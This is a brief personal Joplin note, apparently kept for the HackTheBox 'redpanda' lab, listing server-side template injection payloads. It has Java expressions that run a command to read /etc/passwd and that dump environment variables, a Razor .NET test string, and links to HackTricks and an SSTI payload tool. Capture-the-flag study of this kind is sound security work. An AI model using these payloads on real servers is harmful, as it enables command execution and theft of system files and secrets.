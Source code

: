 Exploit

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#exploits

According to the code language used

# Java

## Get /etc/passwd

${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

Retrieve System env vars

${T(java.lang.System).getenv()}

# .NET (With Filter Bypass)

Test with @{25*25}

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#razor-.net 

https://github.com/VikasVarshney/ssti-payload 

inside HTB/redpanda

id: fe2a22d7cb024a1f8391cc980193d087
parent_id: be00c0893e484fee90efe572981ef789
created_time: 2022-07-11T16:42:50.502Z
updated_time: 2022-07-12T06:45:42.081Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 1657557722946
user_created_time: 2022-07-11T16:42:50.502Z
user_updated_time: 2022-07-12T06:45:42.081Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1
